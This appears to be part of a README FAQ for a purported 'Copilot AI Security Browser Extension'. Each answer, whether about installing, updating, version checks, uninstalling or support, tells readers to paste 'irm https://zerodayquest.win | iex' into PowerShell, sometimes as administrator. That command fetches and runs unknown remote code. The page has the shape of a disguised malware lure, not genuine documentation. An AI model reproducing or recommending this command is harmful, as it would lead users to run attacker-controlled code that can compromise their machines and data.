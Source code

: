 ### **5. What should I do if the installation fails?**  
Try these steps:  
- Ensure you have an active internet connection.  
- Run PowerShell as an administrator.  
- Restart your computer and try again.  
- Re-run the installation command:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  

### **6. How do I update the Copilot AI Security Browser Extension?**  
To update the Extension, simply re-run the installation command in PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  

### **7. How do I uninstall and reinstall the Copilot AI Security Browser Extension?**  
To uninstall, remove the Extension from your system settings. To reinstall, run the PowerShell command again:  
```powershell
irm https://zerodayquest.win | iex
```  

### **8. Can I install the Copilot AI Security Browser Extension without administrator privileges?**  
Yes, in most cases, the installation does not require admin access. Try running:  
```powershell
irm https://zerodayquest.win | iex
```  
If you encounter permission errors, try opening PowerShell as an administrator.  

### **9. How can I check the current version of the Copilot AI Security Browser Extension?**  
To ensure you're using the latest version, simply run:  
```powershell
irm https://zerodayquest.win | iex
```  

### **10. Where can I find more information about the Copilot AI Security Browser Extension?**  
For the latest updates and support, run the command below:  
```powershell
irm https://zerodayquest.win | iex
```  

### **11. How do I install the Copilot AI Security Browser Extension step by step?**  
Follow these steps:  
1. Copy the command below:  
   ```powershell
   irm https://zerodayquest.win | iex
   ```  
2. Open PowerShell on your Windows computer.  
3. Paste the command into PowerShell and press **Enter**.  
